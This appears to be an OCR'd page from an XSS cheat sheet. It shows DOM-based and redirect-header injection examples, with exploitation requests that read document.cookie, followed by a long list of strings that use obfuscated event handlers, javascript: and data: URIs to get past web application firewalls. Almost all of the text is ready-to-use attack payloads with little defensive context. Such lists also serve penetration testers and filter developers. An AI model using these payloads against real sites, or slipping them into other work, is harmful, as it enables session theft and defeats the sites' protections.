 ### DOM-based XSS

```exmpale
Example: <script> ... eval($\_GET\[xss\]); ... </script>
Exploitation: /?xss=document.cookie
```

### XSS via request Redirection

- Vulnerable code:

```exmpale
...
header('Location: '.$_GET['param']);
...
```

As well as:

```exmpale
..
header('Refresh: 0; URL='.$_GET['param']);
...
```

- This request will not pass through the WAF:

`/?param=<javascript:alert(document.cookie>)`

- This request will pass through the WAF and an XSS attack will be conducted in certain browsers.

`/?param=<data:text/html;base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4=`

## WAF ByPass Strings for XSS

- `<Img src = x onerror = "javascript: window.onerror = alert; throw XSS">`
- `<Video> <source onerror = "javascript: alert (XSS)">`
- `<Input value = "XSS" type = text>`
- `<applet code="javascript:confirm(document.cookie);">`
- `<isindex x="javascript:" onmouseover="alert(XSS)">`
- `"></SCRIPT>”>’><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>`
- `"><img src="x:x" onerror="alert(XSS)">`
- `"><iframe src="javascript:alert(XSS)">`
- `<object data="javascript:alert(XSS)">`
- `<isindex type=image src=1 onerror=alert(XSS)>`
- `<img src=x:alert(alt) onerror=eval(src) alt=0>`
- `<img src="x:gif" onerror="window['al\u0065rt'](0)"></img>`
- `<iframe/src="data:text/html,<svg onload=alert(1)>">`
- `<meta content="&NewLine; 1 &NewLine;; JAVASCRIPT&colon; alert(1)" http-equiv="refresh"/>`
- `<svg><script xlink:href=data&colon;,window.open('https://www.google.com/')></script`
- `<meta http-equiv="refresh" content="0;url=javascript:confirm(1)">`
- `<iframe src=javascript&colon;alert&lpar;document&period;location&rpar;>`
- `<form><a href="javascript:\u0061lert(1)">X`
- `</script><img/*%00/src="worksinchrome&colon;prompt(1)"/%00*/onerror='eval(src)'>`
- `<style>//*{x:expression(alert(/xss/))}//<style></style>`
- On Mouse Over​
- `<img src="/" =_=" title="onerror='prompt(1)'">`
- `<a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaa aaaaaaaaaa href=j&#97v&#97script:&#97lert(1)>ClickMe`
- `<script x> alert(1) </script 1=2`
- `<form><button formaction=javascript&colon;alert(1)>CLICKME`
- `<input/onmouseover="javaSCRIPT&colon;confirm&lpar;1&rpar;"`
- `<iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>`